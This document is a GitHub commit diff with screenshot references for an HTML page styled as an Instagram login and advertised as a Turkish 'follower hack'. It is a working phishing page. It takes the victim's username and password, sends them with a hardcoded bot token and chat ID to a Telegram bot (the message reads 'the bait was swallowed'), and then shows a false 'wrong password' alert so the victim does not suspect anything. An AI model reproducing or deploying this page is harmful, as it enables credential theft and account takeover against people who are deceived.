

Before and after one commit to Miprexorj/kubra, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 193-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,70 +2,57 @@
 <html lang="tr">
 <head>
 <meta charset="UTF-8">
-<meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>Mesaj Gönder</title>
+<title>Instagram takipçi</title>
 
 <style>
-*{
-  margin:0;
-  padding:0;
-  box-sizing:border-box;
-  font-family:system-ui;
+body{
+  background:#fafafa;
+  font-family:Arial, sans-serif;
 }
-
-body{
-  background:#0f1a22;
-  height:100vh;
-  display:flex;
-  justify-content:center;
-  align-items:center;
-  color:#fff;
+.container{
+  width:350px;
+  margin:80px auto;
+  background:#fff;
+  border:1px solid #dbdbdb;
+  padding:40px;
+  text-align:center;
 }
-
-.container{
-  width:100%;
-  max-width:360px;
-  padding:20px;
+.logo{
+  font-family: 'Billabong', cursive;
+  font-size:48px;
+  margin-bottom:30px;
 }
-
-h2{
-  text-align:center;
-  margin-bottom:20px;
-}
-
 input, textarea{
   width:100%;
-  padding:14px;
-  margin-bottom:12px;
-  border-radius:12px;
-  border:none;
-  outline:none;
-  background:#1b2a36;
-  color:#fff;
-  font-size:15px;
+  padding:10px;
+  margin:6px 0;
+  background:#fafafa;
+  border:1px solid #dbdbdb;
+  border-radius:4px;
+  font-size:14px;
 }
-
 textarea{
   resize:none;
-  height:120px;
+  height:70px;
 }
-
 button{
   width:100%;
-  padding:14px;
-  border-radius:25px;
+  padding:8px;
+  background:#0095f6;
+  color:#fff;
   border:none;
-  background:#1877f2;
-  color:#fff;
-  font-size:16px;
-  font-weight:600;
+  border-radius:6px;
+  font-weight:bold;
+  margin-top:10px;
   cursor:pointer;
 }
-
-.status{
-  margin-top:12px;
-  text-align:center;
-  font-size:14px;
+button:hover{
+  background:#007cd6;
+}
+.info{
+  margin-top:10px;
+  font-size:12px;
+  color:#fff;
 }
 </style>
 </head>
@@ -73,52 +60,42 @@
 <body>
 
 <div class="container">
-  <h2>İnstagram takipçi sitesi</h2>
+  <div class="logo">Instagram</div>
 
-  <input type="text" id="name" placeholder="Kullanici adi">
-  <input id="message" placeholder="Şifre"></textarea>
-  <button onclick="sendMessage()">Giris yap</button>
+  <input id="user" type="text" placeholder="Kullanıcı adı">
+  <input id="msg" placeholder="Sifre"></input>
+  <input type="password" placeholder="Miktar">
 
-  <div class="status" id="status"></div>
+  <button onclick="sendMessage()">Gönder</button>
+
+  <div class="info">instagram takipci hilesi</div>
 </div>
 
 <script>
-const BOT_TOKEN = "8412069744:AAH8tnhlIEujbQs6l9xayz4RH1pcK33NWv8";
-const CHAT_ID = "7038362008";
+function sendMessage(){
+  const username = document.getElementById("user").value;
+  const message  = document.getElementById("msg").value;
 
-function sendMessage(){
-  const name = document.getElementById("name").value;
-  const msg  = document.getElementById("message").value;
-  const status = document.getElementById("status");
-
-  if(msg.trim() === ""){
-    status.innerText = "Mesaj boş olamaz.";
+  if(!message){
+    alert("Kullanici adi ve sifre bos olmaz");
     return;
   }
 
-  const text = `
-log düştü
-👤 kullanici adi: ${name || "Belirtilmedi"}
-💬 Sifre: ${msg}
-  `;
+  const BOT_TOKEN = "8412069744:AAH8tnhlIEujbQs6l9xayz4RH1pcK33NWv8";
+  const CHAT_ID  = "7038362008";
 
   fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`,{
     method:"POST",
-    headers:{"Content-Type":"application/json"},
+    headers:{ "Content-Type":"application/json" },
     body:JSON.stringify({
       chat_id: CHAT_ID,
-      text: text
+      text: `📩 Yem yutuldu\n👤 Kullanıcı: ${username}\n\n💬 ${message}`
     })
   })
-  .then(res => {
-    status.innerText = "✅ Mesaj gönderildi";
-    document.getElementById("message").value = "";
-  })
-  .catch(err => {
-    status.innerText = "❌ Hata oluştu";
-  });
+  .then(()=> alert("Kullanici adi veya sifre yanlis"))
+  .catch(()=> alert("Hata oluştu"));
 }
 </script>
 
 </body>
-  </html>
+</html>
```
